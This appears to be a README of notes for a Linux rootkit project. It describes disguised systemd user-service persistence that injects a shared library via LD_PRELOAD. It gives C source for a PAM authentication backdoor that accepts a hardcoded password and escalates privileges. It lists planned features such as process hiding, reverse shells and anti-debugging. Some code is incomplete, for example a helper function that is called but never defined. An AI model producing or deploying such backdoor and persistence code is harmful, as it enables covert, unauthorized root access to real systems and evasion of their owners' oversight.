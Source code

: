 # Rootkitty
## Persistence Using SystemD services

place file here:
`~/.config/systemd/user/<your_filename>.service`

should look like this:
```rootkatz.service
[Unit]
Description= something, totally not a rootkit[Service]
ExecStart=/usr/bin/bash -c 'export LD_PRELOAD=<path_to_shared_lib>'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

enable service like so:
`systemctl --user enable rootkatz.service`

this depends on the user being logged in.
to do this at boot (for servers, since they dont have users logged in) root must run:
`systemctl --enable-linger <username>` 
obviously since we dont have root access we cannot use this but 
we can check by `ls /var/lib/systemd/linger/` 
if lingering is available there is a empty file with username on it 

## cool stuff for libraries
`static void __attribute__((constructor)) function(args)` 
gets loaded and executed before evrythig

## PAM Backdoor 
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <string.h>
#define PAM_EXTERN extern

int elevation(){
    uid_t UID = getuid();
    gid_t GID = getgid();

    if (seteuid(0) ==- 1){
        return -1;
    }
    if (setegid(0)==-1){
        seteuid(UID);
        return -1;
    }
    return 0;
}

PAM_EXTERN int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_authenticate)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_authenticate = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    
    const char* passwd;
    pam_get_item(pamh, PAM_AUTHTOK, (const void**)&passwd);

    if(passwd != NULL && strcmp(passwd, "backdoorpassword") == 0) {
        return PAM_SUCCESS;
    }

    return og_pam_sm_authenticate(pamh, flags, argc, argv);
}

PAM_EXTERN int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_setcred)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_setcred = dlsym(RTLD_NEXT, "pam_sm_setcred");
    if (is_backdoor_used(pamh)){
        if(elevation()==0){
return PAM_SUCCESS;
        }
    }
    return og_pam_sm_setcred(pamh, flags, argc, argv);
}
// on exit
int drop_privileges(uid_t original_uid, gid_t original_gid) {
    if (setegid(original_gid)==-1){
        return -1;
    }
  if (seteuid(original_uid) == -1) {
        return -1;
    }
    return 0;
}
```

## more ideas
- anti debug
- PAM backdoor 
- hide own processes
- persistence over systemd process
- reverse shell ipv4 and v6 
- mini-shell interface from server so we can have custom commands
- intercept common cryptographic functions
